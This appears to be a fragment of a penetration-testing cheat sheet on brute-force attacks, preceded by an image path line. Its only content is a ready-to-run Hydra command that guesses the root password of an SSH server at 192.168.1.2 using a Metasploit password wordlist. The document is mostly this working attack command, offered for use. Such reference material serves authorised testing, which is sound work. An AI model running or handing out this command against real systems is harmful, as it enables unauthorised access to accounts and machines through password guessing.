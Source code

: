 # Brute Force Attacks

## Hydra

SSH Brute Force:

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.2 -t 4 -V
```
